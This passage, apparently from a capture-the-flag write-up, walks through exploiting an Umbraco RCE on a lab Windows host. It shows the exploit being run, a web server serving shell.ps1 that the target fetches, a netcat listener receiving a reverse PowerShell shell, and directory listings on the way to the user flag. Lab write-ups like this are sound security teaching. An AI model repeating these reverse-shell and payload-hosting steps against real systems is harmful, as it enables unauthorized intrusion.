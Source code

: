 Run the exploit (it hangs after `[]`):

    
    
    root@kali# python umbraco_rce_iex.py 
    Start
    []
    

In the web server, I see the GET for `shell.ps1`:

    
    
    root@kali# python3 -m http.server 80
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
    10.10.10.180 - - [21/Mar/2020 20:33:14] "GET /shell.ps1 HTTP/1.1" 200 -
    

Then a second later the shell comes back:

    
    
    root@kali# rlwrap nc -lvnp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.180.
    Ncat: Connection from 10.10.10.180:49688.
    Windows PowerShell running as user REMOTE$ on REMOTE
    Copyright (C) 2015 Microsoft Corporation. All rights reserved.
    
    PS C:\windows\system32\inetsrv>whoami
    iis apppool\defaultapppool
    

### user.txt

With this shell I can grab `user.txt`. I’m currently running as a user that
doesn’t have a desktop, and in fact, there are no non-admin users on this
machine:

    
    
    PS C:\users> dir
    
        Directory: C:\users
    
    Mode                LastWriteTime         Length Name
    ----                -------------         ------ ----
    d-----        2/19/2020   3:12 PM                .NET v2.0
    d-----        2/19/2020   3:12 PM                .NET v2.0 Classic
    d-----        2/19/2020   3:12 PM                .NET v4.5
    d-----        2/19/2020   3:12 PM                .NET v4.5 Classic
    d-----        3/22/2020   4:53 PM                Administrator
    d-----        2/19/2020   3:12 PM                Classic .NET AppPool
    d-r---        2/20/2020   2:42 AM                Public 
    

However, in the `Public` folder, there’s the flag:

    
    
    PS C:\users\Public> dir
    